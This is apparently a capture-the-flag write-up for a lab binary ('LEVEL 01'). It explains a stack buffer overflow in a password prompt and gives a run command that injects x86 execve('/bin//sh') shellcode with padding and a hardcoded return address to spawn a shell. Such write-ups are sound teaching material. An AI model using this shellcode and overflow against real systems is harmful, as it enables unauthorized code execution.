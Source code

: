 # LEVEL 01

## EXPLANATIONS

### BINARY BEHAVIOR

- functions : `main`, `verify_user_name`, `verify_user_pass`
- program prompts user for a username
  - this username is stored in a data section buffer and compared to string "dat_wil"
- if username is "dat_wil", user is then prompted for a password.
  - this password is stored on stack and we can overflow main sEIP
    - => fgets copies up to 100 bytes from esp + 1c<sub>16</sub> (28<sub>10</sub>)
      => offset of 128 bytes from esp
    - sEIP is located on esp + 108-112, we control this stack area

### EXPLOIT STRATEGY

- Issue are :

  1. double input on stdin, we had that already in rainfall bonuses.
     - Stop the first fgets with a '\n' after the username.
  2. shellcode will be located on stack, we have to align stacks in/out gdb while preparing the exploit.
     - shellcode + padding + overwrite sEIP with first byte of buffer address

### RUN COMMAND

```
python -c "print('dat_will' + '\n' +  '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + 'A' * 55 + '\xff\xff\xdd\xec'[::-1])" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD /home/users/level01/level01
```
